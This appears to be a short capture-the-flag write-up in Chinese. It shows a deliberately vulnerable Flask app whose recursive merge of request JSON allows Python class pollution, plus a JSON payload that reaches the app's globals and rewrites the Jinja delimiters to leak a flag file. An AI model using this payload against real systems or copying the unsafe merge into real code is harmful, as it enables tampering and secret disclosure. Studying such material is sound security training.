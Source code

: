 ```bash
#app.py

from flask import Flask,request,render_template
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "go check /index before merge it"


@app.route('/index',methods=['POST', 'GET'])
def templates():
    return render_template("test.html", flag = open("flag", "rt").read())

app.run(host="0.0.0.0")
```

我们想要通过{{flag}}的话，就需要将语法标识符进行替换，这里我们就将语法标识符从{{}}，替换为\[\[\]\] 这样的话，\[\[flag\]\] 就能够像{{flag}}一样被解析了。

```bash
{
    "__init__" : {
        "__globals__" : {
            "app" : {
                    "jinja_env" :{
"variable_start_string" : "[[","variable_end_string":"]]"
}        
            }
        }
    }
```
